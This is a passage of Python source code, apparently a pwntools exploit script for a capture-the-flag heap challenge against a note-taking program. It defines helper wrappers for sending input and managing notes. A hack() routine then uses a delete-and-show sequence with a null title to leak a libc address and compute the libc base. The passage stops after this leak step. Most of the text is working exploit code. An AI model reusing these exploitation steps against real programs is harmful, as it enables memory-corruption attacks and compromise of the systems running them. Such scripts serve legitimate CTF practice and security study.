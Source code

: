     def sl(a):
    	p.sendline(a)
    
    def rv(a):
    	return p.recv(a)
    
    def raddr(a,l=None):
    	if l == None:
    		return u64(rv(a).ljust(8,'\x00'))
    	else:
    		return u64(rl().strip('\n').ljust(8,'\x00'))
    
    def lg(s,addr):
    	print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
    
    def sa(a,b):
    	p.sendafter(a,b)
    
    def sla(a,b):
    	p.sendlineafter(a,b)
    	
    def add_note(title,size,content):
    	sl('1')
    	sla('title: ',title)
    	sla('size: ',str(size))
    	sla('content: ',content)
    
    def show_note(title):
    	sl('2')
    	sla('title: ',title)
    
    
    def edit_note(title,content):
    	sl('3')
    	sla('title: ',title)
    	sla('content: ',content)
    
    def delete_note(title):
    	sl('4')
    	sla('title: ',title)
    
    def hack():
    	raw_input()
    	payload = 'AAAAAA'
    	ru('Exit\n')
    	add_note('a',0x28,payload)
    	add_note('d',0x28,payload)
    	add_note('b',0x88,payload)
    	add_note('c',0x88,payload)
    	add_note('f',0x88,payload)
    	
    	# step 1: leak libc
    	show_note('c')
    	rl()
    	delete_note('ccc')
    	show_note('\x00')
    	ru('content: ')
    	top_addr = u64(rv(6).ljust(8,'\x00'))
    	lg('top_addr',top_addr)
    	libc.address = top_addr - 0x58 - 0x3C4B20
    	lg('libc_addr',libc.address)
    